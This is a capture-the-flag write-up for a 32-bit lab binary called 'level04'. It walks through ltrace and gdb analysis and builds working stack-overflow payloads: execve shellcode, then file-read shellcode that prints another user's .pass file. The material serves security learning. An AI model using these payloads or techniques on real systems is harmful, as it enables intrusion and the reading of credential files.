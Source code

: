# Level 04

## Initial Context

- One file: `level04`

## Solving the Challenge

The program expects a shell code.

By looking at the decompiled code, the process `fork()` and the child will `gets` for a shell code.

To get the address of the local buffer, we can use `ltrace` with `-f` to follow children.

```bash
$ ltrace -f ./level04 
...
[pid 3880] fork()                                   = 3881
[pid 3880] wait(0xffffd69c <unfinished ...>
[pid 3881] <... fork resumed> )                     = 0
...
[pid 3881] puts("Give me some shellcode, k")        = 26
[pid 3881] gets(-10592, 0, 0, 0, 2944a)             = -10592
```

`-10592` in hex is `0xffffd6a0` (or `a0 d6 ff ff` in LE). (thanks [cryptii.com](https://cryptii.com/pipes/integer-encoder))

We also need to find EIP offset, for that we can use `gdb` and a [`pattern generator`](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).

```bash
$ gdb ./level04 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
...
(gdb) set follow-fork-mode child
(gdb) set disassembly-flavor intel
(gdb) run
Starting program: /home/users/level04/level04
[New process 3895]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 3895]
0x41326641 in ?? ()
(gdb) bt
#0  0x41326641 in ?? ()
#1  0x66413366 in ?? ()
...
(gdb)
```

Offset for `0x41326641` is `156`.

We can build a simple shell code payload:

```python
# shell code of 24 bytes
"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

# padding for a total of 156 bytes
+ "A" * 132

# local buffer address
+ "\xa0\xd6\xff\xff"
```

And use it:

```bash
$ python -c 'print "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "A" * 132 + "\xa0\xd6\xff\xff"' | ./level04 
Give me some shellcode, k
no exec() for you
```

Since there is protection against the `execve()` syscall, we need to find another way to *print the password file*.

Using this [file read shell code](https://shell-storm.org/shellcode/files/shellcode-73.html), we can easily change it to read `/home/users/level05/.pass`.

Here is the payload:

```python
# shell code of 91 (include .pass path + null terminator) 
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass\x00"

# padding for a total of 156 bytes
+ "A" * 65

# local buffer address
+ "\xa0\xd6\xff\xff"
```

Using it gives us the flag:

```bash
$ python -c 'print "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass\x00" + "A" * 65 + "\xa0\xd6\xff\xff"' | ./level04
Give me some shellcode, k
<flag>
child is exiting...
```
